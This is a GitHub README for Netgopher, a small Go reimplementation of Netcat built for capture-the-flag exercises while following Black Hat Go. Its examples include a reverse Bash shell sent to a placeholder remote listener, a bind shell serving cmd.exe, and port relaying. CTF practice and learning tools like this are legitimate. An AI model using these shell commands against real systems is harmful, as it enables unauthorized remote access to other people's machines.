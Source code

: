 # Netgopher

![Example gif of relay usage](assets/relay.gif)

This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so **grrab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a pair of listeners:

![Listener & connect example image](assets/basic.gif)

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start the same shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
# Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# Feedback?
Issues, pulls, emails, tweets all welcome!
